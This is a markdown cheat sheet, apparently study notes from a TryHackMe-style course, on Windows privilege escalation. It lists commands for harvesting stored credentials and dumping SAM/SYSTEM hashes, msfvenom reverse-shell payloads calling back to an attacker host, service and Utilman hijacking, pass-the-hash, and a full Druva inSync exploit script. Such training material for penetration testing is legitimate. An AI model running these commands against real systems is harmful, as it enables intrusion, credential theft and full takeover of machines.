

# Windows Privilege Escalation

### Windows Privilege Escalation

**Windows Users**

Administrators: These users have the most privileges. They can change any system 
configuration parameter and access any file in the system.

Standard Users: These users can access the computer but only perform limited tasks. 
Typically these users can not make permanent or essential changes to the system and are 
limited to their files.

Any Administrators will be part of the Administrators group, Standard Users the Users group

**Built-in accounts**

SYSTEM/LocalSystem: An account used by the operating system to perform internal tasks. It 
has full access to all files and resources available on the host with even higher privileges 
than administrators.

Local Service: Default account used to run Windows services with "minimum" privileges. It 
will use anonymous connections over the network.

Network Service: Default account used to run Windows services with "minimum" privileges. It 
will use the computer credentials to authenticate through the network.

### Harvesting Passwords from Usual Spots

**Unattended Windows Installations**

When installing Windows on a large number of hosts, administrators may use Windows 
Deployment Services, which allows for a single operating system image to be deployed to 
several hosts through the network. 

These kinds of installations are referred to as unattended installations as they don't 
require user interaction. Such installations require 
the use of an administrator account to perform the initial setup, which might end up being 
stored in the machine in the following locations:

C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

As part of these files, you might encounter credentials:

```
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```

**Powershell History**

Display powershell history for current user

cmd.exe
`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

powershell.exe
`type $env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

**Saved Windows Credentials**

List saved Windows credentials

`cmdkey /list`

Use saved credentials to run executables

`runas /savecred /user:<USERNAME> <EXE-FILE>`

**IIS Configuration**

Internet Information Services (IIS) is the default web server on Windows installations. The 
configuration of websites on IIS is stored in a file called web.config and can store 
passwords for databases or configured authentication mechanisms. 

Depending on the installed version of IIS, we can find web.config in one of the following 
locations:

C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Find DB connection strings

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

**Retrieve Credentials from Software: PuTTY**

PuTTY stores proxy credentials including cleartext authentication credentials. Search under the following registry key:

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

### Other Quick Wins

**Scheduled Tasks**

Find scheduled tasks missing a script/binary or using one you can modify

`schtasks /query /tn <TASK-NAME> /fo list /v`

Check permissions of scripts/binaries

`icacls c:\path\to\binary\script`

[icacls permissions list](./icacls-permissions.md)
[icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

Insert a payload into the scheduled task and wait for execution

**AlwaysInstallElevated**

Windows installer files (also known as .msi files) are used to install applications on the 
system. They usually run with the privilege level of the user that starts it. However, 
these can be configured to run with higher privileges from any user account (even 
unprivileged ones). This could potentially allow us to generate a malicious MSI file that 
would run with admin privileges.

This method requires two registry values to be set.

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`

If they are set you can generate a malicious .msi file with msfvenom

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.169.198 LPORT=LOCAL_PORT -f msi -o malicious.msi`

Set up a reverse shell handler and run msiexec to execute the payload

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

### Abusing Service Misconfigurations

**Windows Services**

Windows services are managed by a process called the *Service Control Manager* (SCM). The SCM 
is in charge of managing the state of services as needed, checking the current status of 
any given service and generally providing a way to configure services.

Each service has an associated executable which will be run by the SCM whenever a service 
is started. Service executables implement special functions to be able to communicate with 
the SCM, not any executable can be started as a service successfully. Each service also 
specifies the user account under which the it will run.

Check service configurations with `sc qc`

Services have a *Discretionary Access Control List* (DACL) indicating who has permission to
start, stop, pause, query status, query configuration, or reconfigure the service, amongst 
other privileges. The DACL can be seen from Process Hacker under the Security tab of a 
service.

The services configurations are in the registry `HKLM\SYSTEM\CurrentControlSet\Services`

A subkey exists for every service in the system. The ImagePath value is the executable run
by the service and ObjectName is the service start name. DACL configuration is stored in a 
subkey called Security. By default only Administrators can modify registry entries.

**Insecure Permissions on Service Executable**

Find a service where the executable has weak permissions (`icacls`) and replace it with a 
malicious service executable generated with msfvenom

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=<PORT> -f exe-service -o malicious-service-executable.exe`

Replace the service executable with the uploaded malicious executable and grant it full 
permissions

`icacls <SERVICE-EXECUTABLE> /grant Everyone:F`

Start a listener on the attacking machine and wait or restart the service if you have 
permissions.

`sc stop <SERVICE-NAME>`
`sc start <SERVICE-NAME>`

**Unquoted Service Paths**

Example service Disk Sorter Enterprise

```
C:\> sc qc "disk sorter enterprise"
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: disk sorter enterprise
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Disk Sorter Enterprise
        DEPENDENCIES       :
        SERVICE_START_NAME : .\svcusr2
```

When the SCM tries to execute the associated binary, a problem arises. Since there are 
spaces on the name of the "Disk Sorter Enterprise" folder, the command becomes ambiguous, 
and the SCM doesn't know which of the following you are trying to execute


| Command Argument 1 | Argument 2 |
|--------------------|------------|
| C:\MyPrograms\Disk.exe | Sorter Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter.exe | Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe |

### Insecure Service Permissions

Check a service's DACL with [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) from the Sysinternals suite or with `sc.exe sdshow <SERVICE-NAME>`.
If misconfigured then a user group may be able to to modify the configuration of the 
service and point to any executable and run it with any account including SYSTEM.

```
accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS                    <--- All Users have full access
```

Generate a reverse shell payload with msfvenom, upload it to the target and grant 
permissions to Everyone with icacls

Change the service's executable and account with sc.exe

`sc.exe config <SERVICE-NAME> binpath= "/path/to/malicious/exe" obj= LocalSystem`

Restart the service for a SYSTEM level reverse shell.

### Abusing Dangerous Privileges

**Windows Privileges**

Display current user's assigned privileges with `whoami /priv`. Full [list of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants).
List of exploitable privileges at [Priv2Admin](https://github.com/gtworek/Priv2Admin)

**SeBackup/SeRestore**

The SeBackup and SeRestore privileges allow users to read and write to any file in the 
system, ignoring any DACL in place. The idea behind this privilege is to allow certain 
users to perform backups from a system without requiring full administrative privileges.

One of the ways to abuse these privileges is to copy the SAM and SYSTEM registry hives
to extract the local Administrators password hash.

Backup the SAM and SYSTEM hashes with `reg save`:

`reg save hklm\system C:\path\to\backup\system.hive`
`reg save hklm\sam C:\path\to\backup\sam.hive`

You can now copy the files to the attacking machine using SMB or any other available method.
To use SMB, run impacket's `smbserver.py` to start a simple SMB server with a network share
in the current directory of the attacking machine:

`mkdir <SHARE-NAME>`
`python3 /path/to/smbserver.py -smb2support -username <USERNAME> -password <PASSWORD> public <SHARE-NAME>`

Retrieve the users' password hashes with impacket:

`python3 secretsdump.py -sam sam.hive -system system.hive LOCAL`

Perform a Pass-the-Hash attack with the Administrators hash and gain access to the machine
with SYSTEM privileges:

`python3 psexec.py -hashes <ADMIN-HASH> administrator@<TARGET-IP>`

**SeTakeOwnership**

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, 
including files and registry keys, opening up many possibilities for an attacker to elevate 
privileges, for example, search for a service running as SYSTEM and take ownership of the 
service's executable.

One option is to abuse `utilman.exe`, a built-in Ease of Access option on the lock screen.
Since Utilman runs with SYSTEM privileges any payload you replace it with will run with 
those privileges.

Take ownership of Utilman

`takeown /f C:\Windows\System32\Utilman.exe`

Grant full access to the executable

`icacls C:\Windows\System32\Utilman.exe /grant <USERNAME>:F`

Replace Utilman with cmd.exe

`copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe`

Lock the machine and click the Ease of Access icon to gain a SYSTEM shell

**SeImpersonate / SeAssignPrimaryToken**

These privileges allow a process to impersonate other users and act on their behalf.
Impersonation usually consists of being able to spawn a process or thread under the 
security context of another user.

Impersonation is easily understood when you think about how an FTP server works. The FTP 
server must restrict users to only access the files they should be allowed to see. When 
a user logs in to the server it impersonates them to access the files they are authorized 
to.

In Windows systems LOCAL SERVICE and NETWORK SERVICE ACCOUNTS have these privileges. 
Internet Information Services (IIS) creates a similar default account called "iis 
apppool\defaultapppool" for web applications.

To elevate privileges using these accounts an attacker needs:

1. To spawn a process so that users can connect and authenticate to it for impersonation to 
occur.
2. Find a way to force privileged users to connect and authenticate to the spawned 
malicious process.

The RogueWinRM exploit can accomplish both conditions.

Assuming an already compromised website running on IIS, that you have planted a web shell 
on, that has SeImpersonate/SeAssignPrimaryToken privileges and the RogueWinRM exploit 
uploaded to `C:\tools`.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) 
starts the BITS service in Windows, it automatically creates a connection to port 5985 
using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply 
a port that exposes a Powershell console to be used remotely through the network. Think of 
it like SSH, but using Powershell.

If the WinRM service isn't running on the victim server, an attacker can start a fake WinRM 
service on port 5985 and catch the authentication attempt made by the BITS service when 
starting. If the attacker has SeImpersonate privileges, they can execute any command on 
behalf of the connecting user, which is SYSTEM.

RogueWinRM syntax:

`RogueWinRM -p "<PROCESS-TO-SPAWN>" -a "<ARGUMENTS>"`

Set up a listener on the attacking machine and run RogueWinRM to gain a SYSTEM shell.

### Abusing Vulnerable Software

**Unpatched Software**

Use `wmic` to list installed software on a machine. May not list return all installed 
programs, don't forget to check desktop shortcuts, available services or generally any 
trace that indicates the existence of additional software.

`wmic product get name,version,vendor` 

Search for existing exploits on Google, [exploit-db](https://www.exploit-db.com/) or [packet storm](https://packetstormsecurity.com/)

**Case Study: Druva inSync 6.6.3**

An RPC server runs on port 6064 with SYSTEM privileges, the exploit takes advantage of an 
exposed procedure (procedure no. 5) allowing command execution. As the server runs as 
SYSTEM, so do any executed commands.

The vulnerability was patched by checking the path to the executable began with
`C:\ProgramData\Druva\inSync4\` but this was easily circumvented with path traversal.

To make a working exploit you must first understand how to talk to port 6064:


The first packet is a hello packet containing a fixed string. The second packet indicates 
that we want to execute procedure no. 5. The last two packets are used to send the length of
the command and the command string.

The [original exploit](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html):

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

Add the user pwnd as a local admin to elevate privileges

`$cmd=net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add`

### Tools of the Trade

**[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)**

WinPEAS is a script developed to enumerate the target system to uncover privilege 
escalation paths. You can find more information about winPEAS and download either the 
precompiled executable or a .bat script. WinPEAS will run commands similar to the ones 
listed in the previous task and print their output. The output from winPEAS can be lengthy 
and sometimes difficult to read. This is why it would be good practice to always redirect 
the output to a file, as shown below:

`winpeas.exe > outputfile.txt`

**[PrivescCheck](https://github.com/itm4n/PrivescCheck)**

PrivescCheck is a PowerShell script that searches common privilege escalation on the target 
system. It provides an alternative to WinPEAS without requiring the execution of a binary 
file.

Reminder: To run PrivescCheck on the target system, you may need to bypass the execution 
policy restrictions. To achieve this, you can use the Set-ExecutionPolicy cmdlet as shown 
below.

```
PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
PS C:\> . .\PrivescCheck.ps1
PS C:\> Invoke-PrivescCheck
```

**[WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)**

Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the 
target system and run them there. This may cause antivirus software to detect and delete 
them. To avoid making unnecessary noise that can attract attention, you may prefer to use 
WES-NG, which will run on your attacking machine (e.g. Kali or TryHackMe AttackBox).

Once installed, and before using it, type the `wes.py --update` command to update the 
database. The script will refer to the database it creates to check for missing patches 
that can result in a vulnerability you can use to elevate your privileges on the target 
system.

To use the script, you will need to run `systeminfo > systeminfo.txt` command on the target 
system then move the text file to your attacking machine.

Once this is done, wes.py can be run as follows;

`wes.py systeminfo.txt`      

**Metasploit**

If you have a Meterpreter shell on the target use the `multi/recon/local_exploit_suggester`
module to list potential vulnerabilities allowing privilege escalation.

### Resources

[PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

[Priv2Admin - Abusing Windows Privileges](https://github.com/gtworek/Priv2Admin)

[RogueWinRM Exploit](https://github.com/antonioCoco/RogueWinRM)

[Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)

[Decoder's Blog](https://decoder.cloud/)

[Token Kidnapping](https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf)

[Hacktricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
